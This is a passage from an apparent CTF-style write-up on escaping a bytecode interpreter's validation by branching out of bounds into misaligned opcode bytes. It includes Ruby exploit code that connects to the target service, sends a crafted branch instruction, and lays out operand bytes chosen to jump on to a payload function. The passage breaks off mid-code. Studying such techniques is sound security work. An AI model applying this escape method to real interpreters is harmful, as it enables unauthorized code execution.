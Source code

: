In other words, if your second function starts at address 0, the interpreter tries to run the bytecode at -12 (give or take). The bytecode at -12 just happens to be the number of instructions in the function, so the first opcode is actually equal to the number of operations (so if you have three operations in the function, the first operation will be opcode 3, or BEQ). Its operands are bits and pieces of the opcodes and operands. Basically, it's a big mess.

To get this working, I wanted to basically just skip over that function altogether and run the third function (which would hopefully be a little better aligned). Basically, I wanted the function to do nothing dangerous, then continue on to the third function.

Here's the code I ended up writing (sorry the formatting isn't great, check out the exploit I linked above to see it better):

<pre class='smaller'>
<span class="Comment"># This creates a valid-looking bytecode function that jumps out of bounds,</span>
<span class="Comment"># then a non-validated function that puts us in a more usable bytecode</span>
<span class="Comment"># escape</span>
<span class="rubyDefine">def</span> <span class="Identifier">init</span>()
  puts(<span class="Special">&quot;</span><span class="Constant">[*] Connecting to </span><span class="Special">#{</span><span class="Type">SERVER</span><span class="Special">}</span><span class="Constant">:</span><span class="Special">#{</span><span class="Type">PORT</span><span class="Special">}</span><span class="Special">&quot;</span>)
  s = <span class="Type">TCPSocket</span>.new(<span class="Type">SERVER</span>, <span class="Type">PORT</span>)
  <span class="Comment">#puts(&quot;[*] Connected!&quot;)</span>

  ops = []

  <span class="Comment"># This branches to the second instruction - which doesn't exist</span>
  ops &lt;&lt; create_op(<span class="Type">OP_BR</span>, <span class="Constant">1</span>)
  add(s, ops)
  verify(s, <span class="Constant">0</span>)

  <span class="Comment"># This little section takes some explaining. Basically, we've escaped the bytecode</span>
  <span class="Comment"># interpreter, but we aren't aligned properly. As a result, it's really irritating</span>
  <span class="Comment"># to write bytecode (for example, the code of the first operation is equal to the</span>
  <span class="Comment"># number of operations!)</span>
  <span class="Comment">#</span>
  <span class="Comment"># Because there are 4 opcodes below, it performs opcode 4, which is 'mov'. I ensure</span>
  <span class="Comment"># that both operands are 0, so it does 'mov reg0, reg0'.</span>
  <span class="Comment">#</span>
  <span class="Comment"># After that, the next one is a branch (opcode 1) to offset 3, which effectively</span>
  <span class="Comment"># jumps past the end and continues on to the third set of bytecode, which is out</span>
  <span class="Comment"># ultimate payload.</span>

  ops = []
  <span class="Comment"># (operand = count)</span>
  <span class="Comment">#                  |--|               |---|                                          &lt;-- inst1 operand1 (0 = reg0)</span>
  <span class="Comment">#                          |--------|                    |----|                      &lt;-- inst1 operand2 (0 = reg0)</span>
  <span class="Comment">#                                                                        |--|        &lt;-- inst2 opcode (1 = br)</span>
  <span class="Comment">#                                                                  |----|            &lt;-- inst2 operand1</span>
  ops &lt;&lt; create_op(<span class="Constant">0x0000</span>, <span class="Constant">0x0000000000000000</span>, <span class="Constant">0x4242424242000000</span>, <span class="Constant">0x00003d0001434343</span>)
  <span class="Comment">#                  |--|              |----|                                          &lt;-- inst2 operand1</span>